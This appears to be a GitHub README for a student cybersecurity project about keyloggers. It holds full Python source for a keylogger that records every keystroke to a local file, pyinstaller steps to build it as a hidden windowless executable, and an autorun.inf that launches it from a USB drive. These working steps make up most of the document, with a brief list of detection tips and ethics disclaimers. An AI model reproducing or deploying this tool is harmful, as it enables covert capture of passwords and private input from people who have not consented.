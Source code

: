 # **Keylogger Project for Cybersecurity Training**  

### **By:** Bilal Sihadi & Mohamed Rouabhi  
### **Course:** CIS 260  
### **Professor:** MD Ali  

---

## 📌 **Project Overview**  
This project is about developing a **keylogger** for **educational and ethical use** in cybersecurity training. The goal is to understand how keyloggers work, how they can capture sensitive data, and how to detect and prevent them.  

⚠ **Important:** This project is **only for learning purposes**. Using keyloggers without permission is illegal. Always follow ethical hacking guidelines.  

---

## 🎯 **Project Goals**  
- ✅ Build a **software-based keylogger** using **Python**.  
- ✅ Deploy a **USB-based keylogger** that runs when plugged into a computer.  
- ✅ Study how keyloggers work on **Windows and Linux**.  
- ✅ Research and test **detection & prevention methods**.  

---

##  **Features**  
### **🔹 Software Keylogger**  
- Records **all keystrokes** (letters, numbers, special keys).  
- Saves logs **locally** with **timestamps**.  
- Works on **Windows & Linux**.  
- Can run in **stealth mode**.  

### **🔹 USB-Based Keylogger (Software Approach)**  
- Runs automatically when plugged into a Windows machine.  
- Stores captured keystrokes on the USB drive.  
- Uses **Python and AutoRun scripts**.  
- No need for special hardware.  

---

##  **How to Install & Run**  

### **1️⃣ Software Keylogger (Python)**  
#### **Requirements:**  
- Python 3.13  
- Required library: `pynput`  

#### **Installation:**  
```sh
pip install pynput
```

#### **Keylogger Code (Python)**  
Copy and save the following code as **keylogger.py**:

```python
from pynput import keyboard   # Import the keyboard listener from the pynput library
from datetime import datetime   # Used to timestamp each keypress
import time    # Used to keep the script running
def keyPressed(key):    # Handles key press events, logs the key pressed along with the timestamp.
     with open("keyfile.txt", 'a') as logKey:  # Open the log file in append mode so previous keystrokes are not overwritten
         try:
             # Log regular character (letters, numbers) 
             logKey.write(f"{datetime.now()} - {key.char}\n")
         except AttributeError:
             # Log special keys (like Enter, Shift, etc.) with timestamp in brackets
             logKey.write(f"{datetime.now()} - [{key.name}]\n")
 
if __name__ == "__main__":
     # Start listening for key presses
     listener = keyboard.Listener(on_press=keyPressed)
     listener.start()  # Start listening
     # Keep the script running quietly in the background
     while True:
         time.sleep(1) # Sleep to prevent high CPU usage
```

#### **Run the Keylogger:**  
```sh
python keylogger.py
```
- The script will record all keystrokes and store them in **keyfile.txt**.  

---

### **2️⃣ USB Keylogger Setup (Windows - Software-Based)**  
This method turns a normal USB drive into a **portable keylogger** that starts when plugged into a Windows computer.  

#### **Step 1: Convert the Keylogger to an Executable**  
To run without needing Python installed, convert it into an **EXE file**:  
```sh
pip install pyinstaller
pyinstaller --onefile --noconsole keylogger.py
```
- This will create an EXE file in the `dist/` folder.  
- Move `dist/keylogger.exe` to the USB drive.  

---

#### **Step 2: Create an Autorun Script**  
1. Open Notepad and paste the following:  
   ```ini
   [Autorun]
   open=keylogger.exe
   action=Open folder to view files
   ```
2. Save this as **autorun.inf** on the USB drive.  

---

#### **Step 3: Plug the USB Into a Windows Computer**  
- If **AutoRun** is enabled, `keylogger.exe` will start running in the background.  
- If not, manually open the USB and **run keylogger.exe**.  

---

##  **How to Detect & Prevent Keyloggers**  
- **Disable AutoRun & AutoPlay** to prevent automatic execution.  
- **Use antivirus & endpoint security tools**.  
- **Monitor running processes** for suspicious activity.  
- **Encrypt sensitive keystrokes** to prevent logging.  

---

##  **Ethical Considerations**  
- This project is for **learning and research only**.  
- Testing is done in a **controlled environment** (no real user data).  
- Always get **permission** before using keyloggers.  

---

##  **Expected Outcomes**  
- A **fully working keylogger** for **ethical training**.  
- A report on **how to detect and prevent keyloggers**.  
- A better understanding of **cybersecurity threats**.  

---

##  **Contributors**  
  **Bilal Sihadi**  
  **Mohamed Rouabhi**  

---

##  **License**  
This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

